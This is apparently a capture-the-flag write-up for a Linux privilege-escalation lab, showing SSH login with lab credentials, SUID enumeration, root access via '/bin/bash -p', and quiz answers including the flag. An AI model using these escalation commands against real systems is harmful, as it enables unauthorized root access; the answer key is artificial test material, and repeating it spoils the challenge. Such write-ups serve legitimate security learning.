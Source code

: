 # Day 11 Challenge
## The Rogue Gnome

This challenge is about privilege escalation. 

Now lets deploy the machine.

We were given the ssh credentials of cmnatic user

`ssh cmnatic@10.10.47.71`

Password: aoc2020

After sshing to the server we need find our sudo permissions using sudo -l

`sudo -l`

But our permission has been declines.

So now we have to find SUID permissions manually using command

`find / -perm -u=s -type f 2>/dev/null`

gives us a huge chunk of data

...

	bin/umount
	/bin/mount
	/bin/su
	/bin/fusermount
	/bin/bash
	/bin/ping
	/snap/core/10444/bin/mount
	/snap/core/10444/bin/ping
	/snap/core/10444/bin/ping6
	/snap/core/10444/bin/su
	/snap/core/10444/bin/umount
	/snap/core/10444/usr/bin/chfn
	/nap/core/10444/usr/bin/chsh
	/snap/core/10444/usr/bin/gpasswd
	/snap/core/10444/usr/bin/newgrp
	/snap/core/10444/usr/bin/passwd
	/snap/core/10444/usr/bin/sudo
	/snap/core/10444/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/10444/usr/lib/openssh/ssh-keysign
	/snap/core/10444/usr/lib/snapd/snap-confine
	/snap/core/10444/usr/sbin/pppd
	/snap/core/7270/bin/mount
	/snap/core/7270/bin/ping
	/snap/core/7270/bin/ping6
	/snap/core/7270/bin/su
	/snap/core/7270/bin/umount
	/snap/core/7270/usr/bin/chfn
	/snap/core/7270/usr/bin/chsh
	/snap/core/7270/usr/bin/gpasswd
	/snap/core/7270/usr/bin/newgrp
	/snap/core/7270/usr/bin/Password
	/snap/core/7270/usr/bin/sudo
	/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/7270/usr/lib/openssh/ssh-keysign
	/snap/core/7270/usr/lib/snapd/snap-confine
	/snap/core/7270/usr/sbin/pppd
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/sudo
	/usr/bin/chfn
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/gpasswd
	/usr/bin/pkexec
	/usr/bin/newuidmap
	/usr/bin/traceroute6.iputils
	/usr/bin/chsh
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/snapd/snap-confine
...
But out of all we can find /bin/bash to be quite amusing right so lets have look at [GTFObins](https://gtfobins.github.io/) and search for /bash

I says when we have SUID permission to access /bin/bash we can escalate our access to root level access by simply using

`/bin/bash -p`

Now we have a shell

Let's see what user I am right now using `whoami` gave me root Naice!!!.

Go ahead and look for the flag in /root/flag.txt

`cat /root/flag.txt`

### Questions

...
	1. What type of privilege escalation involves using a user account to execute commands as an administrator?
		- Ans: Vertical
	
	2. What is the name of the file that contains a list of users who are a part of the sudo group?
		- Ans: sudoers

	3. Use SSH to log in to the vulnerable machine like so: ssh cmnatic@10.10.47.71

		Input the following password when prompted: aoc2020
		- Ans: No answer

	4. You may find uploading some of the enumeration scripts that were used during today's task to be useful.
		-Ans: No answer needed.

	5. What are the contents of the file located at /root/flag.txt?
		-Ans: thm{2fb10afe933296592}
...